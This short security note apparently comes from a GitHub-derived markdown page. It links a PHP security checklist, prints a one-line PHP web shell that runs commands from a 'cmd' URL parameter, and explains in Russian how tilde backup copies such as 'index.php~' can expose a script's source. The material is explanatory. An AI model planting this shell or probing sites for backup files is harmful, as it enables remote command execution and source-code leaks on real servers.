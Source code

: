 # Security

[https://github.com/ismailtasdelen/php-security-check-list](https://github.com/ismailtasdelen/php-security-check-list)

```
<? passthru($_GET["cmd"]);
```

Системы бэкапа иногда сохраняют копии файлов при редактировании. В PHP доставляется тильда. Например, если на сайте есть скрипт `/custom/index.php`, можно попробовать обратиться через тильду к нему как к текстовику: `/custom/index.php~`.
